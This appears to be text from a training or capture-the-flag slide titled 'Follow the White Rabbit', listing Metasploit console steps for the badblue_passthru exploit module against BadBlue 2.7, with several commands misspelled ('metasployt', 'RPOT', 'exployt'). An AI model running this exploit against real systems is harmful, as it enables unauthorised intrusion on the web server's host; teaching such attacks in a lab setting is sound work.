

# Follow the White Rabbit
Badblue 2.7
metasployt
use exploit/windows/http/badblue_passthru
set RHOST
set RPOT
exployt